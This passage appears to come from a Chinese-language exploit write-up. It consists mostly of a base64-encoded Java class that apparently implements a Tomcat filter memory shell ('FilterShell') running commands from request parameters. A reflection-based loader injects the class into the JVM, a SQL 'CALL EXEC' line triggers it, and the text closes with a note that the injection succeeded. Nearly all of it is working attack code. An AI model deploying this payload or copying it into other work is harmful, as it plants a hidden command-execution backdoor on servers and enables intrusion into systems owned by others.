bWNhdC91dGlsL2Rlc2NyaXB0b3Ivd2ViL0ZpbHRlckRlZjspVgEADGFkZEZpbHRlck1hcAEANChMb3JnL2FwYWNoZS90b21jYXQvdXRpbC9kZXNjcmlwdG9yL3dlYi9GaWx0ZXJNYXA7KVYBAAxnZXRQYXJhbWV0ZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEABXN0YXJ0AQAVKClMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7AQAHaGFzTmV4dAEAAygpWgEABG5leHQBAAVjbG9zZQEABXdyaXRlAQAFZmx1c2gBAEAoTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOylWACEASABJAAEASgAAAAkACQBLAEwAAwBNAAAAywADAAYAAAAlKyy2AAE6BBkEBLYAArgAAyoZBLYABDoFGQUEtgACGQUttgAFsAAAAAMATgAAABYABQAAABoABwAbAA0AHAAYAB0AHgAeAE8AAAA+AAYAAAAlAFAAUQAAAAAAJQBSAFEAAQAAACUAUwBUAAIAAAAlAFUAVgADAAcAHgBXAFgABAAYAA0AWQBYAAUAWgAAADQABQAAACUAUABbAAAAAAAlAFIAXAABAAAAJQBTAF0AAgAHAB4AVwBeAAQAGAANAFkAXwAFAGAAAAAEAAEARwBhAAAAAgBiAAkAYwBkAAIATQAAAL0AAgAEAAAA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";
        byte[] bytes = java.util.Base64.getDecoder().decode(evilClassBase64);
        java.lang.reflect.Method method = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        method.setAccessible(true);
        ((Class)method.invoke(ClassLoader.getSystemClassLoader(), "FilterShell", bytes, 0, bytes.length)).newInstance();
    }

    ';
CALL EXEC('calc');
```

​

测试代码



打入成功


